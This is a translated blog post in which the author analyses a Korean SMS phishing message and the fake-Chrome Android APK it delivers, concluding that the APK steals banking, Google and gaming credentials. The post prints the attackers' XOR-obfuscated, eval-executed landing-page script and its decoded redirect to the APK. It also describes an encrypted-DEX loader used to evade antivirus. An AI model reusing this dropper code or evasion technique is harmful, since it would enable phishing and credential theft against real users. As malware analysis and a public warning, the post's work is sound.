> This post was translated from Korean into English by AI.

# Reverse Engineering an SMS Phishing Message

## How It All Started

One peaceful afternoon... I received a mysterious message.


I actually was expecting a package, but there were a lot of suspicious things about the text message.

1. Judging by the content, it was not sent by a delivery driver, yet the number began with 010.
2. What's with the strange spelling? (The correct wording would be, “The product you purchased will be delivered via CJ Express.”)
3. The link uses `tinyurl`? It is obviously a URL-shortening service, so why use that instead of one of CJ's own services or simply a link to its website...?

My computer science instincts told me: **Anyone can see that this is phishing!** So I decided to take the bait.

> I
>
> 1. have studied hacking to some extent,
> 2. have in fact done this sort of thing many times before,
> 3. keep my data properly backed up, and
> 4. conducted the experiment in an isolated environment.
>
> Anyone else reading this **must not try this themselves.**
>
> If you absolutely, positively want to try it, install VMWare, VirtualBox, or something similar and conduct the experiment inside a virtual machine.

## Taking the Bait

First of all, this was clearly an attack targeting mobile devices, so I could not recklessly open it on a phone. I sent the contents of the message to my PC, then opened it in Chrome using a Guest profile and Incognito mode.

Naturally, since this was an attack aimed at mobile devices, nothing happened when I opened the desktop version.



Rather than let that discourage me, I simply used the developer tools to open it again in mobile view.



It did work, but... w-what is this...?

My guess is that a foreign company paid a Korean person to translate this, and that the Korean translator had at least a shred of conscience and deliberately misspelled things... No matter how I look at it, those spelling mistakes could never have come from a machine translator. They are mistakes only a native Korean speaker could make.

The source code for this page was as follows.

```html
<html>
<head>
    <title></title>
</head>
<body>
<div>
    <script>
        var arr = "64200,64197,64204,64219,64221,64129,64139,18941,64137,18970,15849,64137,15285,17645,14349,64137,13853,12145,15853,64137,15789,12253,64137,64137,12277,13468,64137,22197,15241,20149,64137,64202,64193,64219,64198,64196,64204,64137,14325,14409,17965,12973,15853,64137,16236,18905,15837,10257,64137,12273,14453,21657,64137,18109,19748,18529,18509,64135,64139,64128,64146,64163,64137,64137,64137,64137,64137,64137,64137,64137,64197,64198,64202,64200,64221,64192,64198,64199,64135,64219,64204,64217,64197,64200,64202,64204,64129,64139,64134,64207,64220,64203,64220,64197,64207,64220,64192,64198,64194,64135,64200,64217,64194,64139,64128,64146,64169".split(',').map(function(a){return a|0});
        var b = arr[arr.length-1];
        for(var i=0;i<arr.length-1;i++) {
            arr[i] =arr[i]^b;
        }
        arr.pop();
        eval(String.fromCharCode(...arr));
    </script>
</div>
</body>
</html>
```

Right... Anyone can see that they XOR-encrypted the source code, converted it into numbers, and then into a string... Apparently, it is decoded in JavaScript and then executed with `eval`. Yet another reminder of the dangers of the `eval` function. In my view, the mere presence of an `eval` function whose argument is not exclusively a literal is enough to classify code as malicious.

When I decoded it using the source above as-is, I got the following:

```javascript
alert("For a better service experience, please update to the latest, improved version of Chrome.");
        location.replace("/fubulfuiok.apk");
```

But did they really need to encrypt this...? Really?

Well... okay...

When I clicked OK, an APK was automatically downloaded.



It did not seem to make any attempt to steal information through requests or anything like that.

(The remote address is visible in the screenshot above... but I trust that no one will go out of their way to connect to it.)

## Reverse Engineering the Application

If you have done any Android development, you will know that an APK file is nothing more than an archive. I extracted it and looked inside the app, where I found the launcher icon shown below. Apparently, just as the message suggested, it was meant to masquerade as the latest version of Chrome.



Of course, extracting an APK file does not let you inspect its source code directly. Inside an APK, class files are packaged in the DEX format. To view the source, you must first convert the DEX files back into class files and then decompile those class files. I used the `dex2jar` program I had used in the past to convert the DEX files into class files, then decompiled them with `JD-GUI`.



As you can see above, the source code was, unsurprisingly, obfuscated. But this was hardly my first or second day of coding, and the code was laid out so neatly from top to bottom like continuous prose that I could immediately infer what it did without even looking at the function or variable names. Internally, this code also reads the first file in the `et` directory, which is another XOR-encrypted file. It then appears to decrypt that file and use a DEX loader to dynamically load and execute its classes. In other words, this source code is merely a loader for other code; the actual malware is probably the file inside the `et` directory.

In fact, this technique is used very frequently to evade antivirus software. More advanced variants may even download the malware from the internet, but this app did not go that far, which made reversing it a bit easier.

Anyway, when I opened up the `et` directory, I found exactly one file, as shown below.



At this point, it was reasonable to assume that this file was the actual malicious code. So I tried decrypting it. For the decryption, I used a slightly modified version of the poorly obfuscated source code above. If you inspect that source, you can see that it obtains the output file location using the `getFilesDir` function (provided by Android). All you have to do is change that to `"./"`. (A little exception handling is also necessary.)

And so, just as I had successfully decrypted the file and was about to open it in Notepad...



Well, well... It seems even Notepad has become quite smart these days. It identified the file as a malicious script and refused to open it at all. So I simply printed the first 10 bytes to the console. The reason I checked only the first 10 bytes was that

the first two to four bytes of a file are usually known as its magic number and contain an ASCII string that identifies the file type. If no magic number appears at all, you can take that as a sign that something has gone wrong.



Since I had copied and pasted the attackers' own source code as-is, naturally there was no such problem. Without even needing to search for the magic number, I could tell very clearly that it was a `dex` file.



A `dex` file can easily be opened using the same `dex2jar` tool I used earlier to unpack the APK. However, perhaps because they had used some kind of trick—or because the source code is loaded dynamically—it did not decompile cleanly and produced errors. Still, it was not completely impossible to decompile, so I opened the output.



Wow... There are an enormous number of files. As you can tell from the length of the scroll bar, there are at least three times as many as are visible here. There are also many packages I did not open, so the actual number of files is probably far greater than what you can see. (Most of them, however, were interfaces containing only a single method.)

## Inferring the App's Purpose

Hmm... I did not want to interpret all that obfuscated code either. So I skimmed it very roughly, focusing on literals, and **the program appears to be designed to steal personal information, including bank account passwords and gaming accounts.** For example, I found the following Japanese string in the source code.



No matter how I look at it, it sounds like something you would only hear in a voice-phishing scam. I also found the following Korean string.

```javascript
ss1Err.innerText='Must be 10–16 characters / a combination of letters + numbers or special characters.'
```

What could a 10-to-16-character string made up of letters plus numbers or special characters possibly be? It is obviously a password. This makes it easy to see that the application was built on the assumption that users would enter their passwords. So naturally, it must be an app designed to steal personal information.



I have no words.

Elsewhere, I also found code like this.



Since the class itself is final and all of its elements are also declared final, it appears to be a class that stores constants. If you look closely at the strings, what appear to be ordinary web addresses are stored in reverse, but they are more likely to be **application package names** than web addresses. (Package names are commonly structured like that, from a broad scope to a narrow one, in a format that resembles a reversed domain name.) If these were web addresses, that would imply the existence of `google` or `happymoney` top-level domains, and I have never heard of either. It is also unlikely that they would do this for obfuscation; if that were the goal, they could simply reverse the whole string, and there would be no reason to do it this way.

From this, I can infer that the application may detect the moment one of the apps listed above is launched, overlay its own screen on top, and prompt the user to log in. Dangerous stuff.



Wow... There are messages prompting users to log in in languages from all over the world. The Korean message is fairly high up in the list, and I am not sure whether I should take pride in this as a sign of Korea's rising global stature.

I cannot be certain, but I also saw SMS-related methods elsewhere in the source code. It seems entirely possible that the app can steal verification codes and similar information as well.

## Conclusion

I reverse engineered the phishing text message that arrived out of nowhere this afternoon to determine its purpose. Ultimately, I learned that the program was designed to steal gaming, Google, bank, and other accounts, but I was unable to determine who the group behind the attempt was or where the stolen information was being sent.

Fortunately, I am familiar with phishing like this, so all that came of it was my taking the program apart. But for an older person or someone unfamiliar with this kind of thing, this program is dangerous enough to completely strip them of their personal information. If you are reading this, never open a link sent by someone you do not know. Even if you open one by mistake, use the close-tab function to shut it immediately.

And never install an application from an unknown source. If you happen to install one and other apps begin behaving abnormally (e.g., suddenly logging you out), do not attempt to log back in. Instead, have an expert(?) diagnose the problem.
